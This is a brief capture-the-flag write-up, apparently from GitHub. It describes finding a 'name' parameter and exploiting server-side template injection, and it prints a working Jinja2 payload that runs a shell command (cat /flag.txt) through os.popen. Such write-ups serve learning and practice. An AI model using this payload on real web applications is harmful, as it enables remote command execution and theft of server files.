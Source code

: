 # solution

This challenge is bit guessing, from the title and this main page
![alt text](image.png)<br>
I guess maybe have a parameter **name** so i try and luckily this appear
![alt text](image-1.png)<br>
From my experience i think this is some kinds of ssti and like **I know your ip** i test this payload

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

![alt text](image-2.png)<br>
